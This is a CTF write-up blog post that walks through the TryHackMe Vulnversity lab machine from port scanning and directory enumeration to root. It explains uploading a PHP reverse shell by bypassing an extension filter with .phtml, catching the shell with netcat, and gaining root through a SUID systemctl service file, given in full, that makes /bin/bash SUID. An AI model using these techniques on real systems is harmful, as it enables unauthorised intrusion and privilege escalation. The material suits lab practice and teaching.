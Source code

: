 ```yaml
---
layout: post
title: Tryhackme Vulnversity Ctf Writeup
description: Learn about active recon, web app attacks and privilege escalation.
date: 2021-10-9 18:04
image: '/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vulnbanner.png'
tags: [TryHackme-Machines,ctf,pentesting,linux-privesc,bruteforce,cracking,reverse-shell,php,shell-injection]
featured: false
---
```

[**Solve Yourself >>**](https://www.tryhackme.com/room/vulnversity)

Vulnversity is a machine that combines reconnaissance, web attack vectors and privilege escalation methods together.
<br>
<br>
## 1-Enumeration
Let's start with enumerating the host.I will use Network Mapper **nmap** tool in order to scan and probe opened ports and active services to find my attack vector. 

| Parameter  | Functionality                                      |
|:-----------|:---------------------------------------------------|
|-sS         |SYN Stealth Scan (Half TCP Connect scan)            |
|-sV         |Probe open ports to determine service/version info  |
|-O          |Enable OS detection.                                |
|-T4         |T{0-5} Set scan speed, higher is faster.            |
|-p-         |Scan all 65536 ports.                               |
|-oN         |Outputfile                                          |

Full command:
{% highlight bash %}
nmap {machine IP} -sV -sS -O -T4 -p- -oN vulnversity.nmap
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln2.jpg)
<br>
To create our attack vector.If you do your research and investigate whether one of these services have any vulnerabilities or not, you will return to your home empty handed.You can try anonymous login to FTP protocol, or try to make a SSH connection but you would fail just like I did.None of these services have any vulnerabilities that would put us in the target system.
 
Other than that **"3333/tcp open  http   Apache httpd 2.4.18 ((Ubuntu))"** catches the eye, so lets start to investigate the webpage that the host is running on its port 3333.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln3.jpg){:style="max-width: 80%" .normal} 
<br>
Fire up your browser and type **{machine IP}:3333** to your address bar.You will see the webpage shown above.Nothing suspicious there, so lets start to extract the directories with the help of the `gobuster` tool.

| Parameter     | Functionality                                      |
|:--------------|:---------------------------------------------------|
|dir -u         |URL and the port where web server is running        |
|-w             |Wordlist that contains possible directory names     |

Full command:
{% highlight bash %}
gobuster dir -u http://{MachineIP}:3333 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
{% endhighlight %}

[**Seclist's Wordlist Pack >>**](https://github.com/danielmiessler/SecLists)
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln4.jpg){:style="max-width: 80%" .normal} 
<br>
Let's go for **http://[IP]:3333/internal**
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln5.jpg){:style="max-width: 80%" .normal} 
<br>
It seems like we've find our playground :) Website have got an upload functionality.
<br>
<br>
## 2-Exploitation
First thing came into my mind was to upload a php reverse shell, so let's try it out.

[**PHP Reverse Shell Script >>**](https://github.com/krygeNNN/phpenumerate)
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln6.jpg){: .shadow style="max-width: 80%" .normal} <br>
Download the script by using **curl**.However in order to make it work, we need to make some configurations in the script to make it work.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln7.jpg){: .shadow style="max-width: 80%" .normal} <br>
Change **$ip** to your own machines ip (tryhackme's vpn tunnel) ,define the port as any random **$port**.I've changed it to the 8888 while it was 1234 by default.

 Configurations are all done ! Now, it is time for us to upload the reverse shell to the web server.<br>
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln8.jpg){:style="max-width: 80%" .normal} 
<br>
**Note**:My machine shutted it down while creating this post, so I had to restart it. That is why the ip have changed, don't worry :)

It seems like .php extension is not allowed.However ,php extension is not the only extension that we can use, we have got couple more.You can try all of them manually, but come on, let's write a python script :)) 
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln9.jpg){:style="max-width: 80%" .normal} 
<br>
[**Download the php bruter script >>**](https://www.tryhackme.com/room/vulnversity)
Run it.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln10.jpg){:style="max-width: 80%" .normal} 
<br>
**.phtml** is the working extension. Rename the payload, **php_reverse_shell.php** into **php_reverse_shell.phtml**, and than upload it.

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln11.jpg){:style="max-width: 80%" .normal} 
<br>
Now we have successfully injected our reverse shell script.However we also need to listen incoming connections from the server.Therefore we will use Netcat (**nc**) to listen to the port 8888, which we set in the script before.

|Parameter | Functionality                                     |
|:---------|:--------------------------------------------------|
|-n        | Do not resolve hostnames via DNS                  |
|-l        | Bind and listen for incoming connections          |
|-v        | Set verbosity level (can be used several times)   |
|-p        | Specify source port to use                        |

Full command: 
{% highlight bash %}
nc -nvlp 8888
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln12.jpg){:style="max-width: 80%" .normal} 
<br>
While listening to port 8888, we need to activate the script that we just uploaded.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln13.jpg){:style="max-width: 80%" .normal} 
<br>
Visit this URL >> **http://{machineIP}:3333/internals/uploads**, and than click to the reverse php 
shell script that you have uploaded. 

![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln14.jpg){:style="max-width: 80%" .normal} 
<br>
Excellent, we are in !
<br>
<br>
## 3-Flag Capturing and Privilege Eseclation
Nevertheless, this shell is not stable righ now, we need to spawn a python shell.
<br>Run those in order: 
{% highlight bash %}
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln15.jpg){:style="max-width: 80%" .normal} 
<br>

#### 1-User Flag
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln16.jpg){:style="max-width: 80%" .normal} 
<br>
In order to get root flag, we have to escalate our privileges, let's search for SUID binaries.If you are not familiar with SUID executables, I recommend you to make your research, than come back, but basically, when you executing a SUID file, you are executing it with it's owner's permissions.We will use **find** command to scan for those binaries.

| Parameter              | Functionality                                          |
|:-----------------------|:-------------------------------------------------------|
| /                      | Search from the root directory                         |
|-type f                 | Only search for files                                  |
|-user root              | Only find the files owned by root                      |
|-perm -u=s              | Only find the files with SUID bit set                  |
|2>/dev/null             | Redirect all stderr outputs to device null             |

Full command:
{% highlight bash %}
find -type f -user root -perm -u=s 2>/dev/null
{% endhighlight %}
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln17.jpg){:style="max-width: 80%" .normal} 
<br>
Some of those binaries have set uid bit by default, however **/bin/systemctl** should not have that SUID permission by default,so let's search how we can exploit that.
<br>
[**GTFOBins >>**](https://gtfobins.github.io/)
<br>
GTFOBins is a github project, and it is curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.Click the link given above and search fore **systemctl**.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln18.jpg){:style="max-width: 80%" .normal} 
<br>
t seems like one way to exploit that SUID set systemctl is creating a temporary service.Since systemctl's burden is coordinate the services, it makes sense.However we will need to configure that service file.
#### Service file
{% highlight bash %}
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
{% endhighlight %}
I have manually changed the systemctl location in the given code from relative to static directory,and also ExecStart will set SUID perm to /bin/bash.

Copy and paste the lines given above to shell (Press enter two times after you paste it), and than check the /bin/bash's file permissions.
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln19.jpg){:style="max-width: 80%" .normal} 
<br>
As you can see, /bin/bash binary now have 's' permission, which indicates that it is a SUID executable.
<br>Run:
{% highlight bash %}
bash -p
{% endhighlight %}
#### 2-Root Flag
![Desktop View](/assets/img/posts/tryhackme-vulnversity-ctf-writeup/vuln20.jpg){:style="max-width: 80%" .normal} 
<br>
As you can see euid (Effective user id) set to 0 which belongs to root.Now you can get the root flag.

That is all for this machine, thank you for reading :)

